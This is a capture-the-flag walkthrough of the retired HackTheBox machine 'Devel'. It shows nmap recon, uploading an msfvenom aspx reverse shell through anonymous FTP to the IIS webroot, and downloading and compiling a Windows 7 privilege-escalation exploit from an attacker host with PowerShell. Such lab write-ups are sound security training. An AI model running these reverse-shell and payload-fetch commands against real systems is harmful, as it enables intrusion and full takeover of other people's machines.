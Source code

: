```yaml
---
title: Devel - HackTheBox Walkthrough
date: 2021-10-19 12:00:00 
categories: [HackTheBox,Windows]
tags: [ftp,aspx]
img_path: /assets/img/HTB/Devel/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Devel` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Mon Oct 18 19:50:31 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.239.45
Nmap scan report for 10.129.239.45
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 18 19:50:51 2021 -- 1 IP address (1 host up) scanned in 19.91 seconds
```
There only two ports open `22:FTP` and `80:HTTP`.
## FTP Enumeration
Anonymous login is allowed in FTP. This means that we can login with the user `anonymous` and any password, inside the server there a image and a htm file that seems is the default page of IIS 7 (Internet Information Services).

![01-ftp](01-ftp.png)

## HTTP Enumeration
If we go to the web, it show us the same default page of IIS 7 that there in FTP service.

![02-web](02-web.png)

Let's try to upload a test file to see if this services are connected by the same directory.

![03-ftp](03-ftp.png)

Going to `http://10.129.239.45/test.html` to open the test.html

![04-test](04-test.png)

# Initial Foothold
That's when I decided to generate a reverse shell using `msfvenom` with `aspx` format.
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.75 LPORT=443 -f aspx -o RevShell.aspx
```
Once I uploaded to the FTP service and loaded in the browser this url `http://10.129.239.45/RevShell.aspx`. I got the shell in the netcat port listener.

![05-nc](05-nc.png)

I change the directory to `C:\Users` but I couldn't access to babis' home directory.

![06-dir](06-dir.png)

# Privilage Escalation
With `systeminfo`  we view information about the computer.

![07-systeminfo](07-systeminfo.png)

This machine is a `Microsoft Windows 7 Enterprise 6.1.7600` and is vulnerable to a [Local Privilege Escalation](https://www.exploit-db.com/exploits/40564).

![08-exploit](08-exploit.png)

A comment in the exploit explain how compile this script. `Mingw-w64` has to be installed.

```console
$ sudo apt install mingw-w64
$ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

To transfere the `.exe` I opened a server using python3 and ran the next command in the Windows machine.
```console
$ powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.75/40564.exe', 'C:\Windows\Temp\40564.exe')"
```

![09-authority](09-authority.png)

Execute it and now we are Administrators.

![10-root](10-root.png)

We got root.txt
That’s it for now guys. Until next time.
